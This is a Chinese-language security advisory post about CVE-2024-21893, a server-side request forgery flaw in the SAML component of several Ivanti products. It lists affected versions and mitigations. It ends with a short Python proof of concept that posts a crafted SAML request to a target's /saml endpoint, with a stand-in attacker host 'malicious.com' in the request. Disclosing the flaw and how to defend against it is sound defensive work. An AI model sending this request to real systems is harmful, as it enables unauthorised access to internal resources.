 #  CVE-2024-21893影响Ivanti产品   
 云梦安全   2024-06-14 09:33  
  
CVE-2024-21893漏洞在Ivanti Connect Secure、Ivanti Policy Secure及Ivanti Neurons for ZTA产品中的一个严重服务器端请求伪造（SSRF）漏洞。该漏洞允许攻击者在无需认证的情况下，访问某些受限资源。  
#### 漏洞概述  
  
CVE-2024-21893是Ivanti产品中的一个服务器端请求伪造（SSRF）漏洞，主要影响以下版本：  
- **Ivanti Connect Secure**：版本 9.x 和 22.x  
  
- **Ivanti Policy Secure**：版本 9.x 和 22.x  
  
- **Ivanti Neurons for ZTA**：所有版本  
  
该漏洞存在于SAML组件中，攻击者可以通过发送特制的请求，利用该漏洞在无需认证的情况下访问系统内的受限资源。  
#### 漏洞详情  
  
服务器端请求伪造（SSRF）漏洞允许攻击者通过受害服务器向内部或外部网络发起恶意请求，从而访问或操作本应受限的资源。在此漏洞中，Ivanti产品的SAML组件未能正确验证传入的SAML请求，导致攻击者能够发送特制的SAML请求以访问受限资源。  
#### 影响范围  
  
受到该漏洞影响的Ivanti产品包括但不限于：  
- Ivanti Connect Secure 9.x和22.x版本  
  
- Ivanti Policy Secure 9.x和22.x版本  
  
- Ivanti Neurons for ZTA所有版本  
  
这些产品广泛应用于企业和组织的网络安全防护中，任何未及时修补漏洞的系统都可能面临攻击风险。  
#### 防护措施  
1. **及时更新**：Ivanti已经发布了相关的安全补丁，用户应立即更新到最新版本以修补该漏洞。请参阅Ivanti的官方公告和更新指南获取详细的更新步骤。  
  
1. **配置调整**：在应用补丁前，可临时通过限制SAML请求的来源IP和严格验证SAML请求来降低风险。  
  
1. **监控和检测**：实施全面的日志监控和流量分析，检测异常的SAML请求活动，及时发现和响应可能的攻击。  
  
#### 漏洞利用示例  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpwGcB2icGjCuicDVQ18BSRJyIu9wabAg9ME7y8sPuDbvdtHpFnJVFX0heCEEyFQwkicET4JNUGibpad8g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpwGcB2icGjCuicDVQ18BSRJyIcVm04VMgvejghwbSd0LB7YialiaGcsxOWYcYRXn808j8yZ2V6ribNfVUg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpwGcB2icGjCuicDVQ18BSRJyIIfl7icvZovF7TicCIcl8OByKYKQU2ibLK41FQCzlCfRXUfLOKCqJnaXJA/640?wx_fmt=png&from=appmsg "")  
```
import requests
from urllib.parse import urlparse

def send_ssrf_poc(target_url):
    payload = """<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" AssertionConsumerServiceURL="http://malicious.com/">
                    <saml:Issuer xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">http://vulnerable.com</saml:Issuer>
                 </samlp:AuthnRequest>"""
    
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0"
    }
    
    response = requests.post(target_url, data=payload, headers=headers, verify=False)
    print(f"Sent PoC to {target_url}, response status: {response.status_code}")

target_url = "http://target.com/saml"
send_ssrf_poc(target_url)
```  
  
